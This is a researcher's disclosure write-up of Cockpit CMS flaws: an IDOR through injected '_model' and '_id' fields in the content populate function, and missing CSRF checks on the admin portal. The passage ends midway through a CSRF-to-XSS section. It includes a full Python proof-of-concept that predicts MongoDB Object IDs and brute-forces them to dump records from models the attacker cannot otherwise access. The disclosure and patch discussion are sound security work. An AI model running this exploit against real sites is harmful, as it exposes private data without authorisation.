# Overview

So I got bored again and decided to look at another open-source CMS project in the little hobby hacking time I had outside of work. The project that caught my attention was Cockpit CMS, a headless CMS that is written in PHP. I found a fairly cool Insecure Direct Object Reference (IDOR) vulnerability and CSRF issues everywhere on the admin portal that could be exploited to get RCE.

Let's just jump right in and skip my nonsensical preamble.

**Table of Contents**

[TOC]

---

# Vulnerabilities Disclosure Timeline

| Time | Event |
| ---- | ----- |
| 2023/05/29 | Reported the IDOR vulnerability to Cockpit CMS |
| 2023/05/31 | Artur from Cockpit CMS added patch to dev release. |
| 2023/06/08 | Reported the CSRF vulnerabilities to Cockpit CMS |
| 2023/06/08 | Artur added CSRF check for administrator portal API (7 hours after initial report). |
| 2023/06/21 | Cockpit CMS v2.6.0 was released with the patches |
| 2023/06/30 | Vulnerability disclosure was released |



---

# What is Cockpit CMS?

Before we dig into the more technical details, I will need to quickly explain what is Cockpit CMS and a high level overview about how it works. Cockpit CMS is fairly popular headless CMS for building REST and GraphQL APIs. It is a nice simple CMS that makes backend web API development extremely easy. It is also built for NoSQL database management systems such as MongoDB making the CMS horizontally scalable.

However, this opens up the CMS to the possibility of [NoSQL injection attacks](https://github.com/0z09e/CVE-2020-35846) that resulted in severe vulnerabilities in the past. In addition, the CMS is written in PHP which is my personal least favourite language for web development (*this is a personal opinion and a joke*).

So now you have a basic idea about Cockpit CMS, let's get into the fun part.

---

# Exploiting Relational Mappings in the Content API

Relational mappings are great for storing complex data structures on databases. However, as I pointed out in my [Strapi vulnerability disclosures early this year](https://www.ghostccamm.com/blog/multi_strapi_vulns/) they pose a significant threat of being exploited to leak sensitive data.

Looking at Cockpit CMS, I discovered that it had Insecure Direct Object Reference (IDOR) vulnerability by exploiting relational mappings when populating fields. It is a pretty cool finding, so enjoy the details.

## The Issue of Populating Relational Mappings

All actions for content besides files are handled by an API called `Content` (surprising name choice) and the source code is located in the [`modules/Content` folder](https://github.com/Cockpit-HQ/Cockpit/tree/2.5.2/modules/Content). Of particular interest to me was how the relational mappings were populated in the [`populate` function in `bootstrap.php`](https://github.com/Cockpit-HQ/Cockpit/blob/2.5.2/modules/Content/bootstrap.php#L409) (snippet of code below).

```php
if (isset($v['_id'], $v['_model'])) {

    $model = $v['_model'];
    $array[$k] = $this->_resolveContentRef($v['_model'], (string)$v['_id'], $process);

    if ($array[$k]) {
        $array[$k] = $this->populate($array[$k], $maxlevel, ($level + 1), $process);
        $array[$k]['_model'] = $model;
    }
}
```

Explaining in english the above code, if the data that is being populated has an attribute named `_id` and `_model` then Cockpit CMS would resolve the mapping and fetch the corresponding data. The massive problem here is that **there is no validation if the querying user is authorised to access that data**.

Now this would be an interesting finding if I could find a way to inject in the `_model` and `_id` attributes into this populate function. So I decided to start up a test Cockpit CMS server on my local VM and analyse how data is handled on the CMS.

To do this, I created two separate Collections and configured one of the fields to be a "Link" to an entry in the other collection.



Then I simply created a new object using the Admin UI and took a look at the request.



*Hmmmmm*

That is very interesting that in the user's JSON request the `_model` and `_id` values are set. This lead to my next question: 

*Does the server actually validate the type of link that the user sends is the same as the one configured on the model?*

To test this theory, I simply created another collection named "Secrets", created a test item and just resent the above request again.



*Hmmmmmmmmmmm*

Now this is getting intriguing. Cockpit CMS does not validate if a relational mapping is even mapping to the configured type for the field! Plus reading the code, I knew that the user's authorisation is not validated for this mapping so I have got a vulnerability here. Saying that, at this point it was only a low severity finding since it depended on a user having write privileges to a collection with a relational field...

*Or did it?*


Now this is where my initial ramblings about Cockpit CMS becomes important. Cockpit CMS uses a NoSQL database management system that stores entries in a BSON structure (for simplicity just think of JSON documents). This means that if the CMS **does not even validate the type of attributes in a user's JSON request then you could modify the BSON structure that is stored on the database**.

To test this, I created a `Posts` collection that had two fields that were **not** the "Content Link" type and enabled public read and write access to the collection.



Now as an unauthenticated user I tried to create a Post, but manipulate the type of the "Title" field into a relational link by injecting the `_id` and `_model` attribute.



The following screenshot confirms my suspicion that Cockpit CMS was not validating the types of inputs within the JSON request and I was able to modify the "Title" attribute to a JSON structure.



Now let the magic begin when I whack in `?populate=1` into the URL to trigger the vulnerable populate function.




*However, I am not done yet.*

The only issue is that in order to exploit this IDOR vulnerability, you need the name of the model to dump and the Object ID of the data to dump. Now the model name could be guessable, but that Object ID is not and *appears* to be random.

*Or is it...*

---

## MongoDB Object IDs are Not Secure

The thing about MongoDB Object IDs is that although that they look like they are *'randomly'* generated, they are not secure and under certain circumstances can be guessable. Well tbh I got conflicting details [from this stack overflow post](https://stackoverflow.com/questions/15435530/using-mongodb-generated-ids-as-secret-data-eg-oauth-tokens), so let's dig into it further.

Looking at [MonogoDB's documentation about Object IDs](https://www.mongodb.com/docs/manual/reference/method/ObjectId/), an Object ID is 12 bytes in the following structure.



Now the timestamp and incremental counter can be easily bruteforced, but what about the 5-bytes with the 'random value' that is 'unique to the machine and process'? Well turns out if MongoDB server is under a high load or within a short time period then the machine and process ID remain consistent! [Someone has even made a tool for attempting to predict MongoDB Object IDs based on an initial ID](https://github.com/andresriancho/mongo-objectid-predict).

*Right it looks like I have everything now to make a cool POC.*

---

## POC

So my thought process for the POC was.

1. Create an item to get the Object ID to seed [this MongoDB Object ID predictor](https://github.com/andresriancho/mongo-objectid-predict).
2. Generate a list of possible MongoDB Object IDs that are likely within the minute.
3. Spray and pray the exploit.

Below was the POC I sent the developers at Cockpit CMS along with the following GIF.

<details><summary><b><code>cockpit-blaster.py</code></b></summary>
```python
import argparse, json, requests
import tqdm
from mongo_objectid_predict import predict
from typing import Optional
from colorama import Fore, Style

def parse_args() -> argparse.Namespace:
    parser = argparse.ArgumentParser(formatter_class=argparse.ArgumentDefaultsHelpFormatter)

    parser.add_argument(
        'target',
        help='URL to the target API endpoint. Eg. http://127.0.0.1/api/content/Items',
    )

    parser.add_argument(
        'payload_template',
        help="JSON payload for creating an item."
    )

    parser.add_argument(
        '-p', '--payload-key',
        help='The key in the payload_template to replace with payloads.',
        required=True
    )

    parser.add_argument(
        '-k', '--api-key',
        help='API key if required to access the API endpoint'
    )

    parser.add_argument(
        '-m', '--model',
        help='The name of the model that you want to dump items for that you cannot directly access.',
        required=True
    )

    parser.add_argument(
        '--counter-diff',
        help='Amount to bruteforce in the 3-byte counter in the MongoDB ObjectID',
        default=120,
        type=int
    )

    parser.add_argument(
        '--per-counter',
        help='How many seconds to bruteforce the ObjectID',
        default=1800,
        type=int
    )

    return parser.parse_args()

def create_item(target: str, template: dict, payload_key: str, payload_value: str, api_key: Optional[str]=None) -> requests.Response:
    template["data"][payload_key] = payload_value

    if api_key is None:
        return requests.post(
            target,
            json=template
        )

    return requests.post(
        target,
        json=template,
        headers={"api-key": api_key}
    )

def attempt_to_dump_obj(target: str, template: dict, model_name: str, id: str, payload_key: str, api_key: Optional[str]=None) -> bool:
    obj_ref = {"_model": model_name, "_id": id}
    r = create_item(target, template, payload_key, obj_ref, api_key=api_key)
    new_id = r.json()["_id"]
    
    if api_key is None:
        r = requests.get(
            target,
            params={
                "filter": json.dumps({"_id":new_id}),
                "populate":1
            }
        )
    else:
        r = requests.get(
            target,
            params={
                "filter": json.dumps({"_id":new_id}),
                "populate":1
            },
            headers={"api-key": api_key}
        )

    r_json = r.json()
    
    if "error" in r_json:
        return False

    if r_json[payload_key]:
        print()
        print(f"{Fore.GREEN}Found item for {Style.BRIGHT}{Fore.CYAN}{model_name} {Style.RESET_ALL}{Fore.GREEN}model!{Style.RESET_ALL}")
        print(f"{Style.BRIGHT}{Fore.RED}{json.dumps(r_json[payload_key], indent=4)}{Style.RESET_ALL}")
        print()
        return True
    return False
    

def main(args: argparse.Namespace):
    target = args.target
    payload_template = json.loads(args.payload_template)
    api_key = args.api_key
    target_model = args.model
    payload_key = args.payload_key
    counter_diff = args.counter_diff
    per_counter = args.per_counter

    # Get initial ID
    r = create_item(target, payload_template, payload_key, 'Test', api_key=api_key)
    base_id: str = r.json()["_id"]

    # Search around the base ID to dump items from the other model
    for test_id in tqdm.tqdm(predict(base_id, backward=True, counter_diff=counter_diff, per_counter=per_counter)):
        if attempt_to_dump_obj(target, payload_template, target_model, test_id, payload_key, api_key=api_key):
            break


if __name__ == "__main__":
    args = parse_args()
    main(args)
```

</details>



---

## How Cockpit CMS Patched This Vulnerability

Artur from Cockpit CMS released a patch version to test **two days after my disclosure** (*one of the fastest patches I have seen*) with the following change to the `populate` function.



Although this code change *does patch the vulnerability*, there is still an edge case that could occur to make this exploited. Notice that if `isset($proccess['user']['role'])` is not set then the `allowedModels` verification is not executed and the vulnerability is still exploitable.

*So when could this scenario could occur?*

Looking into how users are created, an admin creates on the administrator portal. However, you can create an account **without a role assigned** as shown in the following JSON request.



Results in the `role` **not** being set for the account.



So an account can be created without a role assigned to it, but the following lines of code prevent exploitation if you are using the Cockpit CMS api since the Content API validates the role's permissions first.



The only scenario that I could think of where this was exploitable was if a developer implemented their own code that included Cockpit's bootstrap code.

I sent the following screenshot demonstrating that if the role was not being validated (either by custom code or a potential future vulnerability), then this vulnerability could be exploitable again.



I explained to Artur this scenario where the protection could be bypassed, and below was his response.

> Cockpit itself can also be used as library by just including the bootstrap file. So we have cases where the modules api is used eg for migration scripts or other web apps. Therefore we can’t require a user role here. It would overcomplicate things. But I have it on the radar for future development. Thank you for that.

So beware if your web application is vulnerable to this scenario. It is extremely unlikely to occur, but it could happen.

It is also important to point that although the unauthorised access to models by exploiting the `populate` function was *patched*, the **verifying the types of inputs to expected the type for a field has not been implemented**. This means you can still do things such as inject a JSON object in a text field that could lead to future vulnerabilities.

---

# CSRF Everywhere...

After finding the IDOR vulnerability, I decided to continue looking at Cockpit CMS a bit further. I continued just interacting with the admin portal, looking through the requests when I noticed something **very important** was missing when I tried uploading a file using the **Assets** API...



*Where on earth is the CSRF token validation for this file upload?*


I started looking through the documentation to see if I accidentally misconfigured my Cockpit CMS server. Unfortunately, it turned out that the admin portal was never given the CSRF protection unlike the general API and **every admin API action was vulnerable to CSRF**!

Well that isn't great at all, especially considering that there is multiple methods to exploit these CSRF vulnerabilities to upload dangerous files:

- **Assets API**: The Assets API is the recommended admin API for managing files on Cockpit CMS that somewhat restricts what type of files can be uploaded. However, on a default installation any file type except `.php`, `.phar` and `.phtml` files.

- **Finder API**: The Finder API is specifically just for administrator users that are assigned the `admin` role. It consists of a tonne of dangerous functions for **directly interacting with the file system** and contains *'features'* such as `writeFile` for **writing into PHP files**. These functions cannot be disabled and can be easily exploited on a default installation of Cockpit CMS. By default, it also allows uploading **\*.php**, so it has RCE as a feature.

Those are some very dangerous default settings for a CMS. However, there are configuration settings that can be enabled that should of mitigated the likelihood of exploiting file upload vulnerabilities.

*Let's harden my test server and see if I can still exploit these vulnerabilities.*

---

## Let's Play a Game

So I decided to play a game and harden my configuration of Cockpit CMS. So the following rules I have set for myself looking into this issue:

1. Only allow uploading file extensions of image file types (eg. `.png`, `.jpg`, `.jpeg` and `.svg`).

2. I am not allowed to use the `writeFile` action in the Finder API to overwrite a PHP file to get RCE.

I can restrict the allowed extensions with the following configuration settings.

```php
/**
 * Only allow files with the 'png, jpg, jpeg, svg' extension to be uploaded
 */

// Assets API
'assets' => [
    'allowed_uploads' => 'png, jpg, jpeg, svg'
],

// Finder API
'finder.allowed_uploads' => 'png, jpg, jpeg, svg',
```

However, I could not disable the `writeFile` action for the Finder API so I just deleted the function from `modules/Finder/Controller/Finder.php` on my server.


---

## CSRF to XSS

First I will look at the Assets API and see if I can leverage CSRF on Cockpit CMS to achieve XSS. Now some of you might of noticed I slightly *cheated* with my rule and allowed uploading SVG files, that can be used to [run arbitrary JavaScript when a victim views the file](https://developer.mozilla.org/en-US/docs/Web/SVG). Well it isn't cheating because I made up the game so I can chose my own rules.

Anyway, it *should of not mattered* since Cockpit CMS sanitised SVG files using `\SVGSanitizer::clean` in the following code from `modules/Assets/bootstrap.php`.

```php
...

$_file  = $this->app->path('#tmp:').'/'.$files['name'][$i];
$_isAllowed = $allowed === true ? true : preg_match("/\.({$allowed})$/i", $_file);
$_sizeAllowed = $max_size ? filesize($files['tmp_name'][$i]) < $max_size : true;

// prevent uploading php files
if ($_isAllowed && in_array(strtolower(pathinfo($_file, PATHINFO_EXTENSION)), ['php', 'phar', 'phtml'])) {
    $_isAllowed = false;
}

